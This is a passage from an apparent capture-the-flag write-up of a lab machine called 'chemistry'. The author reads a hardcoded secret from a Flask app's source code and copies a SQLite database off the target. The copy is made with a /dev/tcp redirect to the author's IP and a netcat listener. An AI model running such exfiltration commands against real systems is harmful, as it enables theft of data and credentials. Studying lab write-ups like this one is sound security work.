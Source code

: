 I found myself in the `app`'s home directory, which looked like this:

```bash
app@chemistry:~$ ls -l
total 24
-rw------- 1 app app 5852 Oct  9 20:08 app.py
drwx------ 2 app app 4096 Jan 19 10:23 instance
drwx------ 2 app app 4096 Oct  9 20:13 static
drwx------ 2 app app 4096 Oct  9 20:18 templates
drwx------ 2 app app 4096 Jan 19 10:23 uploads
```

I had a peek at `app.py` and there was a database password: `MyS3cretCh3mistry4PP` always check the source code!

```bash
app@chemistry:~$ cat app.py
from flask import Flask, render_template, request, redirect, url_for, flash
from werkzeug.utils import secure_filename
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
from pymatgen.io.cif import CifParser
import hashlib
import os
import uuid

app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}

.....snip......
```

There was also a `database.db` file under the `/instance` directory

```bash
app@chemistry:~/instance$ ls -l
total 20
-rwx------ 1 app app 20480 Jan 19 10:30 database.db
```

I wanted to see what was inside, so I downloaded it to my machine using `netcat`

```bash
app@chemistry:~/instance$ cat database.db > /dev/tcp/10.10.14.44/1337
```

And on my machine:

```bash
nc -lvnp 1337 > database.db
```

### Browsing the Database
